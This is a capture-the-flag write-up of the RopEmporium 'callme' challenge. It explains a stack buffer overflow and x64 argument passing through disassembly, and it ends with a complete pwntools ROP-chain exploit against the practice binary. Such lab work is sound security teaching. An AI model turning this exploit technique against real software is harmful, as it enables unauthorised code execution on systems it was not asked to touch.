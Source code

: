 ```yaml
---
title: "RopEmporium - callme"
date: 2021-12-20T14:27:14Z
draft: false
authors: ["Thuri"]
tags: ["rop", "RopEmporium"]
summary: "RopEmporium - callme goal is understanding how more than one argument is passed in x64 function."
toc:
    enable: true
    auto: false

code:
    maxShownLines: 100
---
```


## Introduction

The goal of the challenge is understanding how more than one argument is passed in x64 function. The challenge can be downloaded from the author`s website [ropemporium](https://ropemporium.com)

> Reliably make consecutive calls to imported functions.
> Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

> **You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

check the binary protections enabled on the `callme` binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior. radare2 is a powerful disassembler/debugging tool used for examining the behavior of programs.

![call me function](/ropemporium/callme_bug.png)

From the above image we use **pdf** command to disassemble a given function. Function **pwnme** looks similar to the previous challenges ret2win and split.

From the aDisassembled program, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![stack layout](/ropemporium/stack.png)

Next function is read function, which reads for user input and stores in the allocated buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From assembly code, we are reading `0x200` bytes from the standard input file descriptor and storing it in buffer, meaning we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, fill the buffer, overwrite rbp register and control the return address with desired address.

Because the system function receives one argument, look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![pop rdi gadget](/ropemporium/poprdi_callme.png)
Next is determine addresses of `callme_one`, `callme_two`, `callme_three` functions using gdb.

```asm
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb)
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme, disassemble the target shared library **libcallme.so** as shown below.

```asm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave
   0x000000000000092a <+272>:	ret
End of assembler dump.
(gdb)
```

From the disassembly code above, the function compares the arguments passed to the callme_one function. If string values are not equal to values passed to the `rdi`, `rsi` and `rdx` registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with controlled pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

Fully working rop chain code.

```python
import pwn

#Various setting for pwntools
pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)

callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Successful execution of the above code, correct flag is printed.

![](/ropemporium/callme-flag.png)
